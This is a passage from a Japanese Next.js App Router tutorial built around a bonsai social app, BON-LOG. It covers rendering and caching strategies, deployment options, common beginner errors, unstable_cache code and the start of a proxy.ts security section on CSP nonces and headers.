    Q2 -->|No| SSR1
    Q3 -->|Yes| SSG
    Q3 -->|No| Q4
    Q4 -->|Yes| ISR
    Q4 -->|No| SSR2
```

**【BON-LOGでの実際のレンダリング戦略マッピング】**

| ページ | 戦略 | revalidate | 理由 |
|--------|------|-----------|------|
| `/` (ランディング) | SSG | - | 固定コンテンツ |
| `/terms` (利用規約) | SSG | - | ほぼ変更なし |
| `/privacy` (プライバシー) | SSG | - | ほぼ変更なし |
| `/feed` (タイムライン) | SSR | - | ユーザーごとに異なる |
| `/notifications` (通知) | SSR | - | ユーザーごと&リアルタイム |
| `/posts/[id]` (投稿詳細) | SSR | - | 最新コメント表示 |
| `/users/[id]` (プロフィール) | SSR | - | 最新投稿表示 |
| `/search` (検索結果) | SSR | - | クエリごとに異なる |
| `/shops` (盆栽園マップ) | ISR | 1800(30分) | 全ユーザー共通&更新頻度低 |
| `/events` (イベント一覧) | ISR | 1800(30分) | 全ユーザー共通&更新頻度低 |
| `/ranking` (ランキング) | ISR | 300(5分) | 全ユーザー共通&適度な鮮度 |
| `/admin` (管理画面) | SSR | - | 認証&最新データ必須 |

### キャッシュ戦略の選択肢

Next.jsアプリケーションでは、複数のレイヤーでキャッシュを活用できます。「なぜ1つのキャッシュだけでなく、複数を使い分けるのか？」を理解しましょう。

**【キャッシュの4つのレイヤー】**

| レイヤー | ブラウザ（クライアント） | Next.js（リクエスト内） | Next.js（リクエスト間） | 外部（分散キャッシュ） |
|---------|----------------------|----------------------|----------------------|---------------------|
| 技術 | ブラウザキャッシュ | React cache | unstable_cache | Redis (Upstash) |
| スコープ | 1ユーザー | 1リクエスト（同一ユーザーの1回のアクセス内） | 全リクエスト（全ユーザー共通） | 全サーバー（複数インスタンスで共有） |

**【各キャッシュの詳細比較】**

| 項目 | fetch cache | React cache | unstable_cache | Redis |
|------|-----------|-------------|---------------|-------|
| 有効範囲 | リクエスト間 | リクエスト内 | リクエスト間 | 全サーバー |
| 用途 | 外部API応答 | DB重複防止 | 共通データ | セッション / レート制限 |
| 設定方法 | fetch()のオプション | cache()で関数をラップ | unstable_cache()で関数をラップ | Upstash SDK |
| 有効期限 | revalidateで指定 | リクエスト終了まで | revalidateで指定 | TTL指定 |
| 手動無効化 | revalidatePath/Tag | 不要 | revalidateTag | DEL/EXPIRE |
| BON-LOGでの例 | 外部API（未使用） | getUser() | ジャンル一覧・トレンド | レート制限・セッション |

```
【なぜ複数のキャッシュ層を使い分けるのか？】

  単一のキャッシュで全部やろうとすると...

  ❌ 全部Redisでキャッシュ:
     → 毎回Redisにネットワーク接続が必要（React cacheなら無料）
     → リクエスト内の重複防止はReact cacheの方が効率的

  ❌ 全部unstable_cacheでキャッシュ:
     → ユーザー固有データ（通知、タイムライン）はキャッシュ不可
     → 複数サーバーインスタンス間で共有できない

  ❌ 全部React cacheでキャッシュ:
     → リクエスト間で共有されない（毎回DBアクセスが発生）
     → ジャンル一覧のような全ユーザー共通データも毎回取得

  ✅ 適材適所で使い分ける（BON-LOGの戦略）:

  React cache     → 同一リクエスト内でgetUser()を複数箇所で呼ぶ場合
                    （DBアクセス1回だけ）

  unstable_cache  → ジャンル一覧（1時間キャッシュ）
                    トレンドジャンル（5分キャッシュ）
                    全ユーザー共通のデータ

  Redis (Upstash) → レート制限（1分間のAPI呼び出し回数）
                    セッション管理
                    分散環境でのキャッシュ共有
```

### デプロイ先の選択肢

Next.jsアプリケーションのデプロイ先には複数の選択肢があります。

**【デプロイ先の比較表】**

| 項目 | Vercel | AWS Amplify | Cloudflare Pages | Railway | セルフホスト(VPS等) |
|------|--------|-------------|-----------------|---------|-------------------|
| Next.js最適化 | ◎ | ○ | △ | ○ | ○ |
| ISR対応 | ◎ | ○ | △ | ○ | ○ |
| Edge Functions | ◎ | ○ | ◎ | ✕ | ✕ |
| プレビューデプロイ | ◎ | ○ | ○ | ○ | ✕ |
| 設定の簡単さ | ◎ | ○ | ○ | ◎ | △ |
| 料金（小規模） | 無料枠 | 無料枠 | 無料枠 | $5/月~ | $5/月~ |
| 料金（大規模） | 高め | 普通 | 安い | 普通 | 安い |
| カスタマイズ性 | △ | ○ | ○ | ○ | ◎ |
| 日本語サポート | △ | ○ | △ | △ | - |

#### なぜBON-LOGでVercelを選んだか

**【Vercelを選んだ5つの理由】**

| # | 理由 | 詳細 |
|---|------|------|
| 1 | **Next.jsの開発元 = Vercel** | Next.jsの新機能が最初にVercelで最適化される。App Router、Server Actions、ISRなどの機能が確実に動作する。他のプラットフォームでは一部機能が非対応/不安定な場合がある |
| 2 | **プレビューデプロイ** | GitHubにPRを出すだけで自動的にプレビュー用URLが生成される。チームメンバーがレビュー前に実際の動作を確認でき、開発効率が大幅に向上 |
| 3 | **ゼロコンフィグのデプロイ** | GitHubリポジトリを接続するだけで自動デプロイ。ビルド設定、環境変数以外は基本的に設定不要。初心者でもすぐに本番環境を構築できる |
| 4 | **エッジネットワーク** | 世界中にエッジサーバーを配置。proxy.ts（Middleware、認証チェック等）がエッジで高速実行。静的アセットがCDN経由で高速配信 |
| 5 | **無料枠が学習・個人開発に十分** | Hobby Plan（無料）: 月100GBの帯域幅、Serverless Functions実行時間100時間/月、自動HTTPS、プレビューデプロイ。開発・学習フェーズでは無料枠で十分。本番運用でアクセスが増えたらPro Plan ($20/月)に移行 |

---

## 5.C 初心者がつまずきやすいポイント集

### このセクションで学ぶこと

- Next.js App Routerで初心者がよく遭遇するエラーとその解決法
- 「なぜそうなるのか」の原理の理解
- 実際のエラーメッセージから原因を特定する方法

### エラーメッセージ逆引き辞典

実際のエラーメッセージから原因と解決策を逆引きできる辞典です。

**【エラーメッセージ逆引き】**

| エラーメッセージ | 原因 | 解決策 |
|-----------------|------|--------|
| `"You're importing a component that needs useState. It only works in a Client Component..."` | Server Componentの中でuseStateを使おうとした | ファイルの先頭に `'use client'` を追加する。または、useStateを使う部分を別のClient Componentに分離する |
| `"async/await is not yet supported in Client Components"` | `'use client'` が付いたコンポーネントで async function を定義した | データ取得はServer Componentに移動し、propsとして渡す |
| `"Functions cannot be passed directly to Client Components unless you explicitly expose it by marking it with 'use server'"` | Server Componentで定義した通常の関数をClient Componentにpropsとして渡した | その関数に `'use server'` を追加してServer Actionにする。または、Client Component側でイベントハンドラを定義する |
| `"Unhandled Runtime Error: Text content does not match server-rendered HTML"` | ハイドレーションエラー。サーバーとブラウザで生成したHTMLが不一致。よくある原因: Date.now()やMath.random()の使用、windowオブジェクトの存在チェックなし、ブラウザ拡張機能によるDOM変更 | 動的な値はuseEffect内で設定する。`typeof window !== 'undefined'` のチェックを追加する |
| `"Error: Invariant: page not found"` | ディレクトリ内にpage.tsxが存在しない | URLに対応するディレクトリにpage.tsxを作成する。ファイル名が正しいか確認（Page.tsx → page.tsx） |
| `"Error: Objects are not valid as a React child (found: [object Promise])"` | Client Componentでasync関数の戻り値を直接レンダリング、またはPromiseをawaitしていない | Server Componentで await してからpropsで渡す |
| `"Warning: Extra attributes from the server: class, style..."` | ブラウザ拡張機能（ダークモード拡張など）がDOMに属性を追加している | 通常は無視してOK。suppressHydrationWarningを使うことも可能 |

### App Router でよくある「動かない」パターン

**パターン1: ディレクトリ名の大文字/小文字ミス**

```
  ❌ app/Posts/page.tsx    → /Posts はルーティングされるが、
                             慣例に反するため混乱を招く

  ❌ app/posts/Page.tsx    → page.tsx でないため認識されない!
                             特殊ファイルはすべて小文字

  ✅ app/posts/page.tsx    → 正しい。すべて小文字で統一
```

**パターン2: route.tsとpage.tsxの同居**

```
  ❌ 同じディレクトリにroute.tsとpage.tsxを置く
     app/posts/
     ├── page.tsx     ← ページとして表示
     └── route.ts     ← APIとして処理
     → 競合してエラーになる！

  ✅ APIは /api/ ディレクトリ配下に分ける
     app/posts/
     └── page.tsx
     app/api/posts/
     └── route.ts
```

**パターン3: layout.tsxでの `'use client'`**

```
  layout.tsxに 'use client' を付けると...

  ❌ 問題: そのlayout.tsx配下のすべてのページがClient Componentとして
     扱われるわけではないが、layout自体がClient Componentになるため
     async/awaitでのデータ取得ができなくなる

  ✅ 推奨: layout.tsxはServer Componentのまま保つ
     インタラクティブな部分（サイドバーの開閉ボタンなど）は
     子のClient Componentに分離する

  // ❌ 避けるべき
  'use client'
  export default function Layout({ children }) {
    const [isOpen, setIsOpen] = useState(true) // layoutで状態管理
    return <div>...</div>
  }

  // ✅ 推奨
  export default function Layout({ children }) {
    return (
      <div>
        <Sidebar />        {/* Client Component */}
        <main>{children}</main>
      </div>
    )
  }
```

**パターン4: proxy.tsの配置場所ミス**

```
  proxy.ts（Next.js 16 で middleware.ts から名称変更）は「プロジェクトルート」に置く必要がある

  ❌ app/proxy.ts          → 認識されない
  ❌ src/proxy.ts          → srcディレクトリ使用時はここ
  ❌ app/(main)/proxy.ts   → 認識されない

  ✅ proxy.ts              → プロジェクトルート
  ✅ src/proxy.ts          → src使用時のプロジェクトルート

  BON-LOGの場合:
  bonsai-sns-project/
  ├── app/
  ├── components/
  ├── lib/
  ├── proxy.ts     ← ここ！app/の外
  └── package.json
```

**パターン5: Server Actionの `'use server'` の場所**

```
  'use server' はファイルレベルまたは関数レベルで指定できる

  // パターンA: ファイル全体をServer Actionsにする（推奨）
  // lib/actions/post.ts
  'use server'                    ← ファイルの先頭

  export async function createPost(formData: FormData) { ... }
  export async function deletePost(postId: string) { ... }
  // → このファイルのすべてのexport関数がServer Actionになる

  // パターンB: 個別の関数にServer Actionを指定
  // app/posts/page.tsx
  export default function PostsPage() {
    async function handleSubmit(formData: FormData) {
      'use server'               ← 関数の先頭
      // この関数だけがServer Action
    }

    return <form action={handleSubmit}>...</form>
  }

  // ❌ よくある間違い: Client Componentの中に 'use server'
  'use client'
  export function PostForm() {
    async function handleSubmit(formData: FormData) {
      'use server'  // ← Client Component内では使えない！
    }
  }
  // → 'use server' は別ファイルに分離するか、
  //   Server Componentの中で定義する
```

### 開発時のデバッグTips

```
【Next.js開発時のデバッグ方法まとめ】

  1. console.logの出力先を理解する
     ─────────────────────────────
     Server Component の console.log → ターミナル（サーバーのログ）に表示
     Client Component の console.log → ブラウザの開発者ツールに表示
     Server Action の console.log    → ターミナルに表示

     → 「console.logが表示されない！」と思ったら、
       見ている場所（ターミナル or ブラウザ）が違う可能性

  2. React Developer Tools
     ─────────────────────
     ブラウザ拡張機能をインストールすると:
     ├── コンポーネントツリーの確認
     ├── propsとstateの確認
     └── Server Component / Client Componentの区別が可能

  3. Next.js DevTools
     ────────────────
     next devで開発サーバーを起動すると、画面右下に表示される
     ├── ビルドエラーのオーバーレイ表示
     ├── ハイドレーションエラーの詳細表示
     └── レンダリング方式の確認

  4. Prisma Studio
     ──────────────
     npx prisma studio でDB管理GUIを起動（http://localhost:5555）
     ├── テーブルの内容を直接確認
     ├── データの追加・編集・削除
     └── リレーションの確認
     → Server Componentのデータ取得が正しいか確認するときに便利
```

### よくある質問（FAQ）

<details>
<summary>Q: 'use client' はすべてのClient Componentに書く必要がありますか？</summary>

**A:** いいえ。`'use client'`を付けたコンポーネントから`import`される子コンポーネントは、自動的にClient Componentとして扱われます。つまり、「Client Component境界」の最上位のコンポーネントにだけ`'use client'`を書けば、その配下は自動的にClient Componentになります。ただし、`children`としてprops経由で渡されたコンポーネントはこのルールの例外で、Server Componentのままです（Compositionパターン）。
</details>

<details>
<summary>Q: Server ComponentからClient Componentは呼べる？逆は？</summary>

**A:** Server ComponentからClient Componentを呼ぶ（importする）のは問題ありません。日常的に行います（例: Server Componentの中でLikeButtonを使う）。逆に、Client ComponentからServer Componentを直接importすることはできませんが、`children`としてpropsで渡すことで、Client Componentの中にServer Componentを配置できます（Compositionパターン）。
</details>

<details>
<summary>Q: Next.jsのApp RouterとPages Routerの違いは何ですか？</summary>

**A:** Pages Routerは Next.js 12以前のルーティング方式で、`pages/`ディレクトリを使用します。App Routerは Next.js 13以降の新しいルーティング方式で、`app/`ディレクトリを使用します。App Routerの方がReact Server Components、Streaming、Server Actionsなどの最新機能に対応しています。新しいプロジェクトではApp Routerの使用が推奨されています。BON-LOGはNext.js 16を採用しており、App Routerのみを使用しています。
</details>

<details>
<summary>Q: Server Actionとformのaction属性の関係がわかりません</summary>

**A:** HTMLの`<form>`タグには`action`属性があり、従来はURLを指定してフォームデータの送信先を決めていました。Next.jsのServer Actionsでは、この`action`属性にURLの代わりにサーバー関数を直接渡せます。`<form action={createPost}>`と書くと、フォーム送信時に自動的に`createPost`関数がサーバー上で実行されます。URLの定義やfetchの記述が不要になり、型安全なデータ送信が実現します。
</details>

<details>
<summary>Q: 開発中にページが更新されない（古いデータが表示される）のですが</summary>

**A:** いくつかの原因が考えられます。(1) キャッシュが効いている場合: `cache: 'no-store'`を指定するか、開発サーバーを再起動してください。(2) Server Actionの後にキャッシュ更新を忘れている場合: `revalidatePath('/feed')`のような呼び出しを追加してください。(3) ブラウザのキャッシュの場合: 開発者ツールの「Network」タブで「Disable cache」にチェックを入れてください。(4) `next dev`でホットリロードが止まっている場合: ターミナルで`Ctrl+C`で停止し、再度`npm run dev`を実行してください。
</details>

<details>
<summary>Q: ISRの revalidate と Server Actionの revalidatePath の違いは？</summary>

**A:** `revalidate: 60`（ISR）は「60秒ごとに自動的にキャッシュを更新する」という時間ベースの仕組みです。ユーザーのアクションに関係なく、一定間隔で更新されます。一方、`revalidatePath('/feed')`（オンデマンド再検証）は「今すぐこのパスのキャッシュを無効化する」という明示的な指示です。Server Actionでデータを変更した直後に呼び出して、ユーザーに最新データを表示するために使います。両者は組み合わせて使うことも可能です。
</details>

---

## 5.13 unstable_cache詳細

### このセクションで学ぶこと

- unstable_cacheの仕組みとReact cacheとの違い
- キャッシュキーとタグの設計方針
- revalidateTag / revalidatePath によるキャッシュ無効化
- BON-LOGプロジェクトでの実際のキャッシュ戦略

### unstable_cacheとは

> **キャッシュの使い分け**
>
> | 種類 | スコープ | 用途 |
> |------|---------|------|
> | `cache()` (React) | 1つのリクエスト内 | 同じページ内で同じデータを複数箇所で使う時（重複取得防止） |
> | `unstable_cache()` (Next.js) | リクエストをまたぐ | 全ユーザー共通のデータ（人気投稿ランキング等）を一定時間キャッシュ |

前のセクション（5.5）で学んだReact `cache`はリクエスト内のメモ化でしたが、`unstable_cache`はリクエスト間でキャッシュを共有する仕組みです。

```
【React cache vs unstable_cache の違い】

  React cache（リクエスト内メモ化）:

  リクエストA                        リクエストB
  ├── getUser('u1') → DB問い合わせ   ├── getUser('u1') → DB問い合わせ ← また実行
  └── getUser('u1') → キャッシュから  └── getUser('u1') → キャッシュから
                 ↑ 同一リクエスト内のみ有効

  unstable_cache（リクエスト間キャッシュ）:

  リクエストA                          リクエストB
  ├── getCachedGenres() → DB問い合わせ  ├── getCachedGenres() → キャッシュから ← DB不要！
  （結果をキャッシュに保存、1時間有効）
                 ↑ 異なるリクエスト間でも有効

  ※ unstable_cacheはサーバーサイドのデータキャッシュ
  ※ CDNキャッシュとは異なり、Next.jsが内部で管理
```

### unstable_cacheの基本構文

```typescript
import { unstable_cache } from 'next/cache'

const cachedFunction = unstable_cache(
  async () => {
    // データ取得ロジック（キャッシュミス時に実行）
    return await prisma.genre.findMany()
  },
  ['cache-key'],         // キャッシュを識別するキー（配列）
  {
    revalidate: 3600,    // 再検証までの秒数（1時間）
    tags: ['genres'],    // 手動無効化用のタグ（配列）
  }
)
// 動作: 最初の呼び出し→DBクエリ実行→結果を1時間キャッシュ
//       2回目以降の呼び出し→キャッシュから返却（DBアクセスなし）
//       revalidateTag('genres') を呼ぶと即座にキャッシュが無効化される
```

```
【unstable_cacheの3つの引数】

  1. async関数        → 実際のデータ取得処理
                        キャッシュが無効な時だけ実行される

  2. キャッシュキー    → ['all-genres'] のような文字列配列
                        この値でキャッシュを一意に識別

  3. オプション        → revalidate: 自動再検証の間隔（秒）
                        tags: 手動でキャッシュを無効化するためのラベル
```

### BON-LOGのキャッシュ実装（lib/cache.ts）

BON-LOGでは`lib/cache.ts`でキャッシュ戦略を一元管理しています。

#### キャッシュタグの定数定義

タグ名を定数オブジェクトとして一元管理することで、タイプミスを防ぎ、変更を容易にします。

```typescript
// lib/cache.ts

export const CACHE_TAGS = {
  GENRES: 'genres',
  TRENDING_GENRES: 'trending-genres',
  POPULAR_TAGS: 'popular-tags',
} as const

// 使用例:
// ❌ 文字列リテラルだとタイプミスに気づきにくい
// revalidateTag('gneres')  // スペルミス！コンパイルエラーにならない

// ✅ 定数を使うとエディタの補完が効く
// revalidateTag(CACHE_TAGS.GENRES)  // 補完で正しく入力
```

```
【as const の効果】

  // as constなし
  const CACHE_TAGS = { GENRES: 'genres' }
  // CACHE_TAGS.GENRES の型: string
  // → どんな文字列でも代入できてしまう

  // as constあり
  const CACHE_TAGS = { GENRES: 'genres' } as const
  // CACHE_TAGS.GENRES の型: 'genres'（リテラル型）
  // → 型レベルで正確な値が保証される
```

#### ジャンル一覧キャッシュ

ジャンルマスタは管理者のみが変更するデータのため、長めのキャッシュ時間（1時間）を設定しています。

```typescript
// lib/cache.ts

export const getCachedGenres = unstable_cache(
  async () => {
    // データベースからジャンル一覧を取得
    const genres = await prisma.genre.findMany({
      orderBy: [{ sortOrder: 'asc' }],
    })

    // カテゴリごとにグループ化
    type GenreType = typeof genres[number]
    const groupedMap = genres.reduce(
      (acc: Record<string, GenreType[]>, genre: GenreType) => {
        if (!acc[genre.category]) {
          acc[genre.category] = []
        }
        acc[genre.category].push(genre)
        return acc
      },
      {}
    )

    // 表示順序を明示的に定義
    const categoryOrder = ['松柏類', '雑木類', '草もの', '用品・道具', '施設・イベント', 'その他']

    const grouped: Record<string, typeof genres> = {}
    for (const category of categoryOrder) {
      if (groupedMap[category]) {
        grouped[category] = groupedMap[category]
      }
    }

    return { genres: grouped, allGenres: genres }
  },
  ['all-genres'],  // キャッシュキー
  {
    revalidate: 3600,              // 1時間
    tags: [CACHE_TAGS.GENRES],     // 手動無効化用タグ
  }
)
```

#### トレンドジャンルキャッシュ

トレンドは変動するため、短めのキャッシュ時間（5分）を設定しています。

```typescript
// lib/cache.ts

export const getCachedTrendingGenres = unstable_cache(
  async (limit = 5) => {
    // 48時間前の日時を計算
    const fortyEightHoursAgo = new Date()
    fortyEightHoursAgo.setHours(fortyEightHoursAgo.getHours() - 48)

    // ジャンルごとの投稿数を集計（groupByはSQLのGROUP BYに相当）
    const trendingGenres = await prisma.postGenre.groupBy({
      by: ['genreId'],
      where: {
        post: {
          createdAt: { gte: fortyEightHoursAgo },
        },
      },
      _count: { genreId: true },
      orderBy: { _count: { genreId: 'desc' } },
      take: limit,
    })

    // ジャンル詳細情報を取得して結合
    const genreIds = trendingGenres.map(g => g.genreId)
    const genres = await prisma.genre.findMany({
      where: { id: { in: genreIds } },
    })

    return {
      genres: trendingGenres.map(g => {
        const genre = genres.find(gen => gen.id === g.genreId)
        return { ...genre, postCount: g._count.genreId }
      }).filter(g => g.id),
    }
  },
  ['trending-genres'],
  {
    revalidate: 300,                          // 5分
    tags: [CACHE_TAGS.TRENDING_GENRES],
  }
)
```

#### 人気タグキャッシュ

人気タグは投稿本文からハッシュタグを抽出し、出現回数をカウントして集計します。正規表現を使った文字列処理が特徴的です。

```typescript
// lib/cache.ts

export const getCachedPopularTags = unstable_cache(
  async (limit = 10) => {
    // 1週間前の日時を計算（トレンドジャンルの48時間より長い期間で安定したタグを表示）
    const oneWeekAgo = new Date()
    oneWeekAgo.setDate(oneWeekAgo.getDate() - 7)

    // ハッシュタグを含む投稿を取得（#を含む投稿のみに絞り込み）
    const posts = await prisma.post.findMany({
      where: {
        isHidden: false,                   // 非表示の投稿を除外
        createdAt: { gte: oneWeekAgo },    // 1週間以内の投稿のみ
        content: { contains: '#' },         // #を含む投稿に絞り込み
      },
      select: { content: true },            // 本文のみ取得（パフォーマンス最適化）
    })

    // ハッシュタグを抽出してカウント
    const tagCounts: Record<string, number> = {}
    const hashtagRegex = /#[\w\u3040-\u309f\u30a0-\u30ff\u4e00-\u9faf]+/g

    for (const post of posts) {
      if (!post.content) continue
      const tags = post.content.match(hashtagRegex) || []
      for (const tag of tags) {
        const normalizedTag = tag.slice(1).toLowerCase()  // #除去 + 小文字化
        tagCounts[normalizedTag] = (tagCounts[normalizedTag] || 0) + 1
      }
    }

    // カウント順にソートして上位N件を返す
    const sortedTags = Object.entries(tagCounts)
      .sort(([, a], [, b]) => b - a)       // 降順ソート
      .slice(0, limit)                      // 上位N件
      .map(([tag, count]) => ({ tag, count }))

    return { tags: sortedTags }
  },
  ['popular-tags'],
  {
    revalidate: 300,                        // 5分
    tags: [CACHE_TAGS.POPULAR_TAGS],
  }
)
```

```
【正規表現の解説: /#[\w\u3040-\u309f\u30a0-\u30ff\u4e00-\u9faf]+/g 】

  #                → リテラルの#記号（ハッシュタグの開始）
  [                → 文字クラスの開始
    \w             → 半角英数字とアンダースコア [a-zA-Z0-9_]
    \u3040-\u309f  → ひらがな（あ、い、う...）
    \u30a0-\u30ff  → カタカナ（ア、イ、ウ...）
    \u4e00-\u9faf  → CJK統合漢字（漢字全般）
  ]                → 文字クラスの終了
  +                → 1文字以上の繰り返し
  /g               → グローバルフラグ（文字列内のすべてのマッチを検索）

  マッチ例:
  "今日は#盆栽の手入れをしました #黒松 #bonsai"
  → ['#盆栽', '#黒松', '#bonsai']

  マッチしない例:
  "#"（#の後に文字がない）
  "# 盆栽"（#とタグ名の間にスペース）
```

```
【ハッシュタグ集計の処理フロー】

  投稿データ:
  ├── "今日の#盆栽 最高！ #黒松"     → tags: ['盆栽', '黒松']
  ├── "#盆栽 の水やり完了"            → tags: ['盆栽']
  ├── "#もみじ が紅葉し始めた"        → tags: ['もみじ']
  └── "#盆栽 #黒松 #松柏類"          → tags: ['盆栽', '黒松', '松柏類']

  カウント結果:
  { 盆栽: 3, 黒松: 2, もみじ: 1, 松柏類: 1 }

  ソート後（上位3件）:
  [
    { tag: '盆栽', count: 3 },
    { tag: '黒松', count: 2 },
    { tag: 'もみじ', count: 1 },
  ]
```

#### キャッシュのライフサイクル

unstable_cacheで管理されるキャッシュのライフサイクルを時系列で見てみましょう。

```
【ジャンルキャッシュのライフサイクル（revalidate: 3600秒 = 1時間）】

  時刻        イベント                       キャッシュ状態
  ─────────  ──────────────────────         ─────────────
  0:00       サーバー起動                    空（キャッシュなし）
  0:01       ユーザーAがアクセス             MISS → DB問い合わせ → キャッシュ保存
  0:02       ユーザーBがアクセス             HIT → キャッシュから返却（DB不要）
  0:30       ユーザーCがアクセス             HIT → キャッシュから返却
  1:01       ユーザーDがアクセス             STALE → バックグラウンドで再取得
             （1時間経過）                   → 古いデータをまず返却（高速）
                                             → 再取得完了後にキャッシュ更新
  1:02       ユーザーEがアクセス             HIT → 更新されたキャッシュから返却
  1:30       管理者がジャンル追加            →
             revalidateGenresCache()呼出     キャッシュ即時無効化
  1:31       ユーザーFがアクセス             MISS → DB問い合わせ（新ジャンル含む）

  ※ STALE（古い）状態でも即座にレスポンスを返す
  ※ バックグラウンドで新データを取得する（Stale-While-Revalidate方式）
  ※ revalidateTagで即時無効化も可能
```

### キャッシュ無効化（revalidateTag / revalidatePath）

キャッシュを手動で無効化する方法は2つあります。

```
【キャッシュ無効化の2つの方法】

  1. revalidateTag('タグ名')
     → 特定のタグが付いたキャッシュを無効化
     → 精密に対象を指定できる

  2. revalidatePath('/パス')
     → 特定のパスに関連するすべてのキャッシュを無効化
     → ページ全体のキャッシュをリセット

  使い分け:

  | 項目 | revalidateTag | revalidatePath |
  |------|---------------|----------------|
  | 対象 | 特定データのキャッシュ | ページ全体のキャッシュ |
  | 例 | ジャンルマスタ更新 | 投稿作成後のフィード更新 |
  | 影響範囲 | 小さい | 大きい |
```

BON-LOGでのキャッシュ無効化関数の実装です。

```typescript
// lib/cache.ts

import { revalidateTag } from 'next/cache'

// ジャンルキャッシュを無効化（管理者がジャンルを更新した時）
export function revalidateGenresCache() {
  revalidateTag(CACHE_TAGS.GENRES, { expire: 0 })
}

// トレンドジャンルキャッシュを無効化
export function revalidateTrendingGenresCache() {
  revalidateTag(CACHE_TAGS.TRENDING_GENRES, { expire: 0 })
}

// 人気タグキャッシュを無効化（スパムタグを削除した後など）
export function revalidatePopularTagsCache() {
  revalidateTag(CACHE_TAGS.POPULAR_TAGS, { expire: 0 })
}
```

> **Next.js 16での変更点**: `revalidateTag`の第2引数に`{ expire: 0 }`が必要になりました。`expire: 0`は即時無効化を意味します。

### キャッシュキーの設計指針

```
【キャッシュキー設計のポイント】

  1. 一意であること
     ✅ ['all-genres']           → ジャンル一覧全体
     ✅ ['trending-genres']      → トレンドジャンル
     ❌ ['data']                 → 何のデータかわからない

  2. 引数がある場合はキーに含める
     ✅ ['user-profile', userId] → ユーザーIDごとにキャッシュ
     ❌ ['user-profile']         → 全ユーザーで同じキャッシュ

  3. 命名規則を統一する
     ✅ kebab-case: 'trending-genres', 'popular-tags'
     ❌ 混在: 'trendingGenres', 'popular_tags', 'ALL_GENRES'
```

### キャッシュ対象データの選定基準

```
【キャッシュすべきデータの判断フローチャート】

  データは頻繁に変わる？
    /           \
  Yes             No
   |               |
   |          全ユーザー共通？
   |            /       \
   |          Yes        No
   |           |          |
   |       キャッシュ推奨  キャッシュ不要
   |       (revalidate:   (個別ユーザーデータは
   |        長め 1h~)     React cacheで十分)
   |
  リアルタイム性が必須？
    /           \
  Yes             No
   |               |
  キャッシュ不要   短めのキャッシュ
  (タイムライン等)  (revalidate: 5m程度)
                    (トレンドデータ等)

  BON-LOGでの適用:

  | データ | キャッシュ | 理由 |
  |--------|-----------|------|
  | ジャンルマスタ | 1時間 | 変更頻度が低い |
  | トレンドジャンル | 5分 | 適度な鮮度 |
  | 人気タグ | 5分 | 適度な鮮度 |
  | タイムライン | なし | 常に最新 |
  | ユーザー通知 | なし | リアルタイム |
```

### 理解度チェック

<details>
<summary>Q1: React cacheとunstable_cacheの最大の違いは何ですか？</summary>

**A:** React `cache`は1つのリクエスト内でのみ有効なメモ化で、同じリクエスト内で同じ関数を複数回呼んでも1回しか実行されません。一方、`unstable_cache`はリクエスト間でキャッシュが共有され、設定した時間（revalidate）が経過するまで、異なるリクエストでもキャッシュされた結果が返されます。React cacheはユーザーごとのデータ重複防止に、unstable_cacheは全ユーザー共通のデータのパフォーマンス最適化に適しています。
</details>

<details>
<summary>Q2: revalidateTagとrevalidatePathはどう使い分けますか？</summary>

**A:** `revalidateTag`はunstable_cacheで設定したタグ名を指定して、そのタグが付いたキャッシュのみを無効化します。精密な制御が可能です（例: ジャンルマスタだけを更新）。`revalidatePath`はURLパスに関連するすべてのキャッシュを無効化します。Server Actionsでデータ変更後にページ全体を更新したい場合に使います（例: 投稿作成後に`revalidatePath('/feed')`でタイムラインを更新）。
</details>

---

## 5.14 Proxy詳細（旧Middleware）

### このセクションで学ぶこと

- BON-LOGの`proxy.ts`の全体構成と処理フロー（Next.js 16で `middleware.ts` から名称変更）
- CSP nonce生成によるセキュリティ強化
- Basic認証の仕組みとメンテナンスモード
- Origin検証（CSRF対策）の実装
- Edge Runtimeの制約と注意点

> **Next.js 16 での変更**: Next.js 16 では `middleware.ts` が `proxy.ts` に名称変更されました。機能は同一です。BON-LOGでは `proxy.ts` を使用しています。

### Proxyの全体像

5.8節では基本的な認証チェックを学びましたが、BON-LOGの実際のProxyはそれ以上に多くのセキュリティ機能を実装しています。

```
【BON-LOG Proxyの処理フロー（proxy.ts）】

  リクエスト受信
       |
       v
  [1] CSP nonce生成
       |
       v
  [2] Origin検証（POST リクエスト）
       |   └── 不正なOrigin → 403 Forbidden
       v
  [3] 広告iframe / APIルートチェック
       |   └── 特殊パスは個別処理
       v
  [4] Basic認証チェック
       |   └── 認証失敗 → 401 Unauthorized
       v
  [5] メンテナンスモードチェック
       |   └── メンテ中 & 非管理者 → /maintenance リダイレクト
       v
  [6] 認証状態チェック
       |   ├── 保護ページ & 未ログイン → /login リダイレクト
       |   └── 認証ページ & ログイン済 → /feed リダイレクト
       v
  [7] セキュリティヘッダー付与
       |
       v
  レスポンス返却
```

### CSP nonce生成

CSP（Content Security Policy）はXSS攻撃を防ぐセキュリティヘッダーです。nonceは「number used once」の略で、各リクエストに一意のランダム値を生成します。

```typescript
// proxy.ts（Next.js 16）（実際のコード）

import { NONCE_BYTE_LENGTH } from '@/lib/constants/limits'

function generateNonce(): string {
  // Edge Runtimeでも動作するWeb Crypto APIを使用
  // NONCE_BYTE_LENGTH は lib/constants/limits.ts で定義された定数（16バイト）
  const array = new Uint8Array(NONCE_BYTE_LENGTH)
  crypto.getRandomValues(array)
  // Base64エンコード（Edge Runtime互換）
  return btoa(String.fromCharCode(...array))
}
```

```
【nonceによるインラインスクリプト制御】

  ❌ 'unsafe-inline'（危険）:
  すべてのインラインスクリプトを許可
  → 攻撃者が注入したスクリプトも実行される

  <script>alert('XSS攻撃!')</script>  ← 実行されてしまう

  ✅ nonce方式（安全）:
  正しいnonceを持つスクリプトのみ許可
  → サーバーが生成したnonceを知らない攻撃者のスクリプトは実行されない

  <script nonce="abc123">正規のコード</script>  ← 実行OK
  <script>alert('XSS攻撃!')</script>             ← ブロック！

  CSPヘッダー:
  Content-Security-Policy: script-src 'nonce-abc123'
  → nonce="abc123" を持つスクリプトのみ許可
```

### セキュリティヘッダーの付与

proxy.ts（Middleware）では、すべてのレスポンスにセキュリティヘッダーを追加しています。

```typescript
// proxy.ts（Next.js 16）

function addSecurityHeaders(response: NextResponse, nonce?: string): NextResponse {
  // XSS保護
  response.headers.set('X-XSS-Protection', '1; mode=block')

  // コンテンツタイプスニッフィング防止
  response.headers.set('X-Content-Type-Options', 'nosniff')

  // クリックジャッキング防止
  response.headers.set('X-Frame-Options', 'DENY')

  // Referrer Policy
  response.headers.set('Referrer-Policy', 'strict-origin-when-cross-origin')

  // Content Security Policy（nonce対応）
